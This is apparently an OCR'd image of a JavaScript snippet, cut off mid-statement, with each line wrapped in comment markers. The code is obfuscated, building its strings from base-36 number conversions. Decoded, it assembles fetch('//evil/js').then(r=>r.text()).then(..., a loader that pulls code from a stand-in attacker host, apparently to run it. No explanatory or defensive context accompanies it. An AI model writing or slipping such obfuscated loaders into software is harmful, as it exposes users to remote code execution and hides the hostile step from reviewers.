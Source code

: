 ```
*/S=""/*
*/[C]/*
*/+[];/*
*/N=/*
*/C[8]+/*
*/C[9]+/*
*/S[9]+/*
*/S[10]+/*
*/S[11]+/*
*/S[12]+/*
*/S[13]+/*
*/S[14];/*
*/Q=/*
*/X[C];/*
*/R=A=>/*
*/Q(A);/*
*/O=A=>/*
*/A[N]/*
*/(36);/*
*/V=2588/*
*/*10000/*
*/+5457/*
*/J=O(V)/*
*/J+=/*
*/"('//"/*
*/V=/*
*/694029/*
*/J+=/*
*/O(V);/*
*/J+=/*
*/"/";/*
*/J+=/*
*/O(712)/*
*/J+=/*
*/"')."/*
*/W=1375/*
*/*1000/*
*/+583/*
*/J+=/*
*/O(W)/*
*/J+=/*
*/"("/*
*/J+=/*
*/O(27)/*
*/J+=/*
*/"=>"/*
*/J+=/*
*/O(27)/*
*/J+=/*
*/"."/*
*/V=W-/*
*/3198/*
*/J+=/*
*/O(V)/*
*/J+=/*
*/"()."/*
*/J+=/*
*/O(W)/*
*/J+=/*
*/"("/*
*/V=/*
*/693741/*
*/J+=/*
```